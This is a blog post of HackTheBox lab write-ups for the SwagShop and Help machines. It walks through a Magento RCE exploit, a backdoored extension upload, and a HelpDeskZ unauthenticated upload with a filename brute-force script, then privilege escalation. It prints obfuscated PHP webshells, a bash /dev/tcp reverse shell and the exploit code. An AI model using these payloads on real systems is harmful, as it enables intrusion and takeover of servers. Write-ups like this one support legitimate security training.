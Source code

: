 ```yaml
---
title: "HackTheBox - WriteUp 2"
date: 2019-05-13T22:20:40+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# SwagShop

## Reference

1. Check here for more details about linux command utils: https://gtfobins.github.io/
2. https://packetstormsecurity.com/files/133327
3. http://10.10.10.140/app/etc/local.xml
4. https://github.com/lavalamp-/LavaMagentoBD
5. https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
6. http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/

## Step 1: NMAP

Opened Port: 80, 22.

Apache2 with Ubuntu 18.04, SSH Useless...

## Step 2: SearchSploit

> For OSCP Preparation: Use Searchsploit to search exploit-db.com and modify it to your case.
> Leave the metasploit alone.

```bash
$ searchsploit -m exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                             |  Path (/opt/searchsploit/)
------------------------------------------------------------------------------------------------------------------------------------------------
Magento eCommerce - Remote Code Execution                  | exploits/xml/webapps/37977.py
------------------------------------------------------------------------------------------------------------------------------------------------
```

Found the RCE, next modify it. Maybe the creator want to let us know more about what's behind, he even not wrote correct URL rewrite in Apache.

```python
target = "http://10.10.10.140/"
target_url = target + "/index.php" + "/admin/Cms_Wysiwyg/directive/index/"
```

Why do I modify this file?  Check the last reference. 

Run the script and go to the admin panel to do the next step.

> NOTE: IF YOU MET 503 ERROR, SOMEONE MUST MODIFY THE `index.php` IN A WRONG WAY! RESET THE BOX!
> So, please be patient if you are a free user. Or just buy a VIP like what I do.

## Step 3: Normal User

Execute the Python Script. Use "forme:forme" to login `/downloader` administration extension panel.

Then, modify the webshell:

```bash
$ git clone https://github.com/lavalamp-/LavaMagentoBD
```

Go to the `LavaMagentoBD/Backdoor Code/app/code/community/Lavalamp/Connector/controllers/IndexController.php`, Open `AntSword`.

Insert the corresponding call URL to the `AntSword` and then generate an one-line shell like this:

```php
<?php $RQUC=create_function(chr(01306-01242).chr(786-671).str_rot13('b').base64_decode('bQ==').str_rot13('r'),chr(0x202-0x19d).str_rot13('i').chr(0x1149a/0x2da).chr(063030/0362).chr(01374-01324).str_rot13('$').chr(0x30d-0x29a).base64_decode('bw==').str_rot13('z').chr(0401-0234).chr(0x3488/0x148).chr(53985/915));$RQUC(base64_decode('MTk4N'.'TE5O0'.'BldkF'.'sKCRf'.''.chr(0233163/01647).str_rot13('R').chr(306-249).chr(990-906).chr(51600/600).''.''.chr(0134760/01250).chr(0x211-0x19d).chr(037260/0354).chr(0x6b30/0x118).base64_decode('MA==').''.'ZnZnh'.'0dl0p'.'OzU5N'.'TU1Nz'.'s='.''));?>
```

Don't forget the password the software gives you. Then make a `md5sum` of this php file, and change the corresponding value in the `LavaMagentoBD/Backdoor Code/package.xml`. Next, According the project readme, repack it and upload to the downloader panel. Now you have the reverse shell. Use AntSword as you pleased.

## Step 3: Before privilege escalation

After you get the reverse shell as www-data, just `cat /etc/passwd` to get the user `haris`, and next, `cat /home/haris/user.txt`, you get the normal user token.

Carefully check the `ls -alh /home/haris`, found `.sudo_as_administrator_successful` (something like), you know that you need to escalate with `sudo`.

## Step 4: Get interactive shell and escalate

Check GTFOBINS and machine, found Python3 with bash.

Use the following commands to get the interactive shell:

```bash
$ export RHOST=<YOUR IP>
$ nc -lp 14445
$ bash -c 'bash -i &>/dev/tcp/$RHOST/14445 0<&1'
$ python -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 5: Escalate

Get the spawned interactive shell and run `sudo -l`, found:

```bash
$ sudo -l
root (NOPASSWD:ALL):/usr/bin/vi /var/www/html/*
```

**USE THE ABSOLUTE PATH** to get the root shell without any password and do the f*cking things you want:

```bash
$ sudo /usr/bin/vi /var/www/html/test.sh
```

Then `:!cat /root/root.txt` get the root token. 

Finished!

# Help

## Step 1: NMAP

80 For HTTP; 22 For SSH, Useless; 3000 For HTTP, Node.js ExpressJS framework.

Then use Nikto: Found Apache default page on port 80, found HelpDeskZ on `/support` .

## Step 2: Exploit, get normal user

Vulnerable Software Source Code:  [Sourcegraph](https://sourcegraph.com/github.com/AlexisGoatache/HelpDeskZ@006662bb856e126a38f2bb76df44a2e4e3d37350/-/blob/controllers/submit_ticket_controller.php#L137)

Check the code, even the developer let the filename get obfuscated by "Filename + MD5(timestamp).php", it still could be found via bruteforce.

```php
<?php
// ScFVmDQa 
$YdyH=create_function(chr(11232/312).base64_decode('cw==').chr(01014-0635).chr(0256112/01462).str_rot13('r'),chr(354-253).chr(0x187-0x111).base64_decode('YQ==').chr(0x11e74/0x2a7).chr(026140/0434).chr(31644/879).chr(101775/885).str_rot13('b').chr(0x355-0x2e8).str_rot13('r').chr(738-697).chr(073261/01003));$YdyH(base64_decode('MzMxM'.'jQyO0'.'BldkF'.'sKCRf'.''.base64_decode('VQ==').str_rot13('R').chr(711-654).str_rot13('G').chr(17286/201).''.''.chr(063750/0574).chr(01071-0705).chr(01674-01550).chr(0xbc15/0x21d).str_rot13('0').''.'ZWbUR'.'RYV0p'.'Ozk5M'.'zcyNj'.'s='.''));?>
```

Finish all the stuffs in the ticket and upload the one-line PHP trojan as attachment, **even if you get a notification that "File is not allowed", the file is successfully uploaded in fact.**

Use the python exploit here to enum the PHP trojan filename:

```python2
#!/usr/bin/env python2
# EID: 40300

import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + "time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ": " + str(response.status_code)

print "Sorry, I did not find anything"
```

Use the `http://10.10.10.121/support/uploads/tickets/ <PHP TROJAN FILENAME>` , please don't forget the last `/` of the app base URL.

After found it, just send a GET request to activate. Then do anything you want via `AntSword`.

## Step 3: Privilege Escalation

Execute `uname -a`, found `Linux Kernel 4.4.0-116`, GoogleFU~

Found a local privilege escalation exploit in `searchsploit "4.4.0-116"`, just mirrored it and send it to the box then compile it.

Get a reverse shell, then use `bash` to get the interactive shell, and use `python3` to spawn a tty.

Next, compile and execute: `gcc -o exsc 44298.c && ./exsc`, and then it will gives you a rooted spawned interactive reverse shell.

Finished.

(END) 2019.5.14
